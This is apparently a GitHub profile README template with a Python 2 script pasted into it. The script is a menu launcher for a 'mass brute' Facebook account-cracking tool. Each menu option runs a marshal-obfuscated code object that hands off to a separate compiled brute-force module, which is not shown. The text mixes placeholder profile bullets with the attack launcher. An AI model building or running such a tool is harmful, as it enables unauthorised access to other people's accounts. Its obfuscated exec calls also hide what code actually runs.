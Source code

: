 - 👋 Hi, I’m @Yoga38765
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
import os, re, sys, json,requests,time,marshal
if sys.version_info.major != 2:
	exit('\n\033[1;91mPlease use python 2 version\033[1;97m')

def clear(): # clear terminal
	if " linux" in sys.platform.lower():
		os.system("clear")
	elif "win" in sys.platform.lower():
		os.system("cls")
	else:os.system("clear")
if ("linux" in sys.platform.lower()):

        W = '\033[1;37m'
        N = '\033[0m'
        R = '\033[1;37m\033[31m'
        B = '\033[1;37m\033[34m'
        G = '\033[1;32m'
        O = '\033[1;37m\033[33m'
        C = '\033[36m'
        notice  = "{}{}[*]{} ".format(W,O,W)
        warning = "{}[#>]{} ".format(R,W)
        good    = "{}[!]{} ".format(G,N)
        warn    = "{}[!]{} ".format(O,N)
        line    = "\n"
else:

        W = ''
        N = ''
        R = ''
        B = ''
        G = ''
        O = ''
        C = ''
        notice  = ''
        warning = ''
        good=''
        d    = ''
        warn    = ''
        line    = ""
def banner():
	print("""{}      :::    :::              :::::::::  :::::::::   :::::::: {}
     :+:    :+:              :+:    :+: :+:    :+: :+:    :+: {}
     +:+  +:+               +:+    +:+ +:+    +:+ +:+    +:+  {}
     +#++:+  +{}#++:++#++:++ +#{}++:++#+  +#++:++#:  +#+    +:+   {}
   +#+  +#+               +#+        +#+    +#+ +#+    +#+    {}
 #+#    #+#              #+#        #+#    #+# #+#    #+#     {}
###    ###              ###        ###    ###  ########       {}{}{}\n
+#++:+  +#++:++#++:++ +#++:++#+  +#++:++#:  +#+    +:+
\t<\033[1;92mMASS BRUTE FACEBOOK COOKIE METHODE\033[1;97m>
{}CREATED BY\t : YOGA"CLONE
{}FACEBOOK\t : RADENIR.PRAYOGA
{}GITHUB \t : https://github.com/YogCrzy
+#++:+  +#++:++#++:++ +#++:++#+  +#++:++#:  +#+    +:+""").format(R,G,B,O,G,C,C,R,G,B,W,line,notice,notice,notice)

while True:
	clear()
	banner()
	print '\n'
	print ' \t \t   [Select Methode Crack]'
	print '_________________________________________________________'
	print '  [ \033[1;92m01\033[1;97m ]  Crack With Graph Api ( \033[1;92mFaster!\033[1;97m,Kemungkinan Besar Result Chekpoint)'
	print '  [ \033[1;92m02\033[1;97m ]  Crack With M.Facebook ( \033[1;93mLambat \033[1;97m, Membutuhkan Koneksi Yang kuat ! Tetapi Result Cp kemungkinan Berkurang! )\n'
	try:
		choose = int(raw_input('\033[1;97mRizalXd />:\033[1;92m '))
	except ValueError:
		print('\n\033[1;91mHadeh\033[1;97m')
		exit()
	if choose == 1 or choose == 01:
		exec(marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00@\x00\x00\x00s\x11\x00\x00\x00e\x00\x00j\x01\x00d\x00\x00\x83\x01\x00\x01d\x01\x00S(\x02\x00\x00\x00s\x1a\x00\x00\x00python2 brute-cpython40.soN(\x02\x00\x00\x00t\x02\x00\x00\x00ost\x06\x00\x00\x00system(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00<roy>t\x08\x00\x00\x00<module>\x01\x00\x00\x00t\x00\x00\x00\x00'))
		exit()
	elif choose == 2 or choose == 02:
		print ('Jangan lupa donasi seiklashnya :"v')
		time.sleep(1)
		exec(marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00@\x00\x00\x00s\x11\x00\x00\x00e\x00\x00j\x01\x00d\x00\x00\x83\x01\x00\x01d\x01\x00S(\x02\x00\x00\x00s\x1a\x00\x00\x00python2 brute-cpython39.soN(\x02\x00\x00\x00t\x02\x00\x00\x00ost\x06\x00\x00\x00system(\x00\x00\x00\x00(\x00\x00\x00\x00(\x00\x00\x00\x00s\x05\x00\x00\x00<roy>t\x08\x00\x00\x00<module>\x01\x00\x00\x00t\x00\x00\x00\x00'))
		exit()
	else:
		print(R+"ISI YANG BENER"+W)
		
<!---
Yoga38765/Yoga38765 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
